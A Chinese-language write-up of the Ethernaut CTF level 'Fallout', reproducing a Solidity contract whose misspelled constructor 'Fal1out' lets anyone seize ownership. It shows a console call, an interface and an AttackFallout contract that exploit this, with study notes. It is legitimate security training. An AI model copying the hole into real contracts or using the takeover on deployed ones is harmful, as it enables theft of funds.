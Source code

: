 # 2-Fallout

# 问题描述

Claim ownership of the contract below to complete this level.

Things that might help

- Solidity Remix IDE

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import "openzeppelin-contracts-06/math/SafeMath.sol";

contract Fallout {
    using SafeMath for uint256;

    mapping(address => uint256) allocations;
    address payable public owner;

    /* constructor */
    function Fal1out() public payable {
        owner = msg.sender;
        allocations[owner] = msg.value;
    }

    modifier onlyOwner() {
        require(msg.sender == owner, "caller is not the owner");
        _;
    }

    function allocate() public payable {
        allocations[msg.sender] = allocations[msg.sender].add(msg.value);
    }

    function sendAllocation(address payable allocator) public {
        require(allocations[allocator] > 0);
        allocator.transfer(allocations[allocator]);
    }

    function collectAllocations() public onlyOwner {
        msg.sender.transfer(address(this).balance);
    }

    function allocatorBalance(address allocator) public view returns (uint256) {
        return allocations[allocator];
    }
}
```

# 解题思路

这道题目其实非常的简单，`Fal1out`函数拼写错误变成了一个public的function，并且能够让call这个`owner=msg.sender`

1. 直接在console调用这个函数即可，然后就可以完成任务
   
    ![image](02-Fallout/image.png)
    
2. 掌握一下写代码的思路，直接写`interface`即可，然后部署之后直接用Remix的`At Address`对其进行互动，和在console里面输入上面方法是一样的
   
    ```solidity
    // SPDX-License-Identifier: MIT
    
    pragma solidity ^0.8.0;
    
    interface Ifallout {
        function Fal1out() external payable;
    }
    ```
    

---

# 小白的思考

这道题目虽然很简单，但是其实花了蛮多的时间的。主要是一边做在一遍思考，理解之后豁然开朗，并且搞懂了很多很基础的东西。记录一下笔记。

## Constructor

这题从思路上来讲很简单，刚开始不明白为什么要设置这样的题目，以及为什么`Fal1out` 是个拼写错误以及上面有constructor的注释。后来才发现要因为我是从0.8开始学的，这涉及到一些历史原因。

> 在 Solidity 0.4.22 之前，构造函数的定义方式是使用与合约同名的函数名（即构造函数的名称必须与合约的名称一致）。然而，从 Solidity 0.4.22 开始，引入了 constructor 关键字，构造函数应使用 constructor 定义，而不是与合约同名的函数。
> 

> 函数名 Fal1out 看起来像是构造函数，但由于拼写错误（“l”被替换为“1”），它实际上只是一个普通的公共函数，而不是构造函数。这样的话，任何人都可以调用这个函数，而不是仅仅在合约部署时被调用。
> 

## 和合约沟通的方式

- 从第一种解法了解如何从console直接通过abi互动
- 第二种方法了解了如何通过remix部署interface，然后直接通过`at address`来调用实例中的函数

在 Solidity 中，当你创建一个接口时，只需要定义你实际需要调用的函数。接口的目的是定义与目标合约的交互方式，所以只要包含你计划调用的那些函数就可以了，其他函数可以忽略。

**具体原因：**

1. **函数选择**：每个函数都有一个唯一的函数选择器（msg.sig），它是函数签名（函数名和参数类型）的前四个字节。因此，只要你在接口中定义了与目标合约中相同签名的函数，调用时就会匹配并调用目标合约中的对应函数。
2. **接口的最小化**：如果你只需要调用一个或几个函数，那么将它们写入接口就足够了。这不仅减少了代码的复杂性，还提高了代码的可读性和维护性。

## 关于有payable修饰词的函数的误解

1. 之前以为在调用含有payable修饰词的函数时一定要发送一点ether，但是其实不需要，并不是强制性的
2. 在写攻击函数的时候，constructor上面很自然的带了payable。但是如果在部署合约的时候不给一些初始的ether，其实没有必要。[熟悉一下](https://www.notion.so/payable-61ecc48c54dc4dcea5bf5d1f4d01e2bc?pvs=21)

## 关于攻击函数

因为是做完第10个挑战回来再写代码的，刚开始写了下面这么个代码。

感觉上是可行的，但是实际上就是过不了关。

```solidity
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.0;

interface Ifallout {
    function Fal1out() external payable;
}

contract AttackFallout {
    Ifallout public victim;

    constructor(address _victimAddress) {
        victim = Ifallout(_victimAddress);
    } 

    function attack() public {
        // 调用 victim 合约中的 Fal1out 函数
        victim.Fal1out();
    }
}
```

后来仔细想了想，才明白自己的问题出在哪里。

我现部署了上面这个攻击合约，然后通过共计合约去调用`Fal1out`函数，这样导致owner变成了我的共计合约，而不是我，所以无法过关。

但是从攻击的角度来讲，这样也不是不行。再接再厉吧，之前都没有好好思考过这个问题。

```solidity
一个小破题引发了如此多的思考，但是起码思路是越来越清晰的。
```